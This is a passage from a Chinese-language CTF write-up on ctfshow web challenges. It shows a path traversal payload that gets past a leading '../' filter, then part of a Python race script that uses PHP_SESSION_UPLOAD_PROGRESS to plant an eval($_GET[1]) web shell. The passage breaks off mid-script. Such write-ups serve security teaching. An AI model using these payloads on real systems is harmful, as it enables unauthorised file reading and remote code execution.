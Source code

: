 ```php
exit;
}

echo $path."内容为：\n";
echo str_replace("\n", "<br>", htmlspecialchars(file_get_contents($path)));
} else {
echo '<span style="color:#888;">目标flag文件为/flag.txt</span>';
}
?>
```

这里要用的路径穿越，如果使用想要回到`/`目录，可以使用`../../../`一步步往上走，但是这里禁止`/`或者`../`开头，所以可以尝试在前面添加一个不存在的路径，在寻找文件时，会自动忽略不存在的目录，继续后面的目录穿越操作，最后回到根目录

```bash
aaa/../../../../../../../../flag.txt
```

![24](/medias/ctfshow-web/24.png)



### 临时文件包含



脚本梭哈

```python
import io
import requests
import threading
# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://0253528e-43f1-427b-b1f1-81fc84692b2d.challenge.ctf.show/'
sessionid = 'ctfshow'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':'<?php file_put_contents("shell.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>'},
        files={'file':('1.jpg',fileBytes)}
        )
```